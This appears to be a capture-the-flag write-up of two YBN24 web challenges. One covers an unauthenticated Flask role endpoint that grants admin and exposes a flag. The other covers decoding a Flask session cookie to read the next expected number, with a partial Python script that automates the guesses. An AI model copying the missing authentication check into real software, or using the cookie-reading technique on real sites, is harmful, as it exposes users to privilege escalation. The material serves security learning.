 ```python
    if 1==1:  
        _id = int(_id)  
        if _id < 0 or _id > len(roles):  
            return jsonify({'message': 'Invalid id'}), 400  
        session['role'] = roles[_id]  
        return jsonify({'message': 'Role created successfully'})  
    else:  
        return jsonify({'message': 'Unauthorized'}), 401  
    @app.route('/nuke')  
def nuke():  
    role = session.get('role',"user")  
    if role == 'admin':  
        flag = open('flag.txt','r').read()  
    else:  
        flag = None   
return render_template('nuke.html', flag=flag)
```
* The `/nuke` endpoint, which requires us to have the `admin` role retrieved from the session storage.
* The  `/api/users/<_id>/roles` endpoint, which has no authentication and allows us to submit any role id and have it stored in the session storage. 
Thus, a simple post request of `https://stationary-threat-stationary-threat-chall.ybn.sg/api/users/2/roles` allows us to obtain the admin role, then `/nuke`
`YBN24{@utHEnT!cA71On?_wha7'S_7h4t?}`
## Number oracle
#langs/python 
A site where we have to consecutively guess the correct numbers. No source code is provided
![[Pasted image 20241202201153.png]]
Since no source code was provided, I started poking around the page
![[Pasted image 20241202201333.png]]
We can see that there is no script client side and that verification is done by the server.
![[Pasted image 20241202201508.png]]
There is also a session cookie, which when [decoded](https://www.kirsle.net/wizards/flask-session.cgi) reveals the next number is actually kept in session storage (which when using flask sessions is viewable, but not editable without the secret key).
![[Pasted image 20241202201702.png]]
Thus, by retrieving the session cookie and decoding it each guess, we can correctly submit the next number. I was lazy to do it by hand 10 times so I made a quick script
```python
import requests, base64, json  
  
endpoint = "https://number-oracle-number-oracle-chall.ybn.sg/" 
session = requests.Session()  
  
r = None  
def make_req(num=0):  
    try:  
        global r  
        data = {"guess": num}  
        r = session.post(endpoint, data=data)  
        cookies = session.cookies.get("session")  
        print(cookies)  
        cookies = cookies.split(".")[0]  
        # Add padding if necessary  
        padding_needed = len(cookies) % 4  
        if padding_needed:  
            cookies += '=' * (4 - padding_needed)  
        s = base64.b64decode(cookies).decode()  
        num = json.loads(s)["next_guess"]  
        print(num)  
```